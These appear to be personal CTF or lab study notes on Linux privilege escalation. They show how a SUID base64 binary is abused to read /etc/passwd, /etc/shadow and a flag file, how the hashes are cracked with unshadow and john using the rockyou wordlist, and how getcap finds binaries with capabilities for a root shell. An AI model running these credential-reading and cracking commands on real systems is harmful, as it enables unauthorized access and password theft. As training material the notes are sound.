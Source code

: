 	`unshadow passwd.txt shadow.txt > passwords.txt`  

![](https://i.imgur.com/6cHBAr1.png)

`john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt`

Q) Which user shares the name of a great comic book writer?
	```base64 /etc/passwd | base64 -decode```
	![[Pasted image 20240823223110.png]]

Q) What is the password of user2?
	```base64 /etc/shadow | base64 -decode```
	`unshadow passwd.txt shadow.txt > passwords.txt`
	`john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt`
	![[Pasted image 20240823223330.png]]

Q)What is the content of the flag3.txt file?
	same trick on encoding and decoding to gain read acces: 
		`base64 /home/ubuntu/flag3.txt | base64 -d`

## **Privilege Escalation: Capabilities**
Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user. The capabilities man page provides detailed information on its usage and options.

We can use the `getcap` tool to list enabled capabilities.
	![](https://i.imgur.com/Q6XYr0p.png)

  
Please note that neither vim nor its copy has the SUID bit set. This privilege escalation vector is therefore not discoverable when enumerating files looking for SUID.
	![[Pasted image 20240823233354.png]]

GTFObins has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities. Vim can be used with the following command and payload:
	![[Pasted image 20240823234405.png]]
	
![[Pasted image 20240823233458.png]]

This will launch a root shell as seen below;
	![[Pasted image 20240823233708.png]]

Q)How many binaries have set capabilities?
	`getcap -r / 2>/dev/null	`
	![[Pasted image 20240823234159.png]]
	
Q)What other binary can be used through its capabilities?
	![[Pasted image 20240823234334.png]]
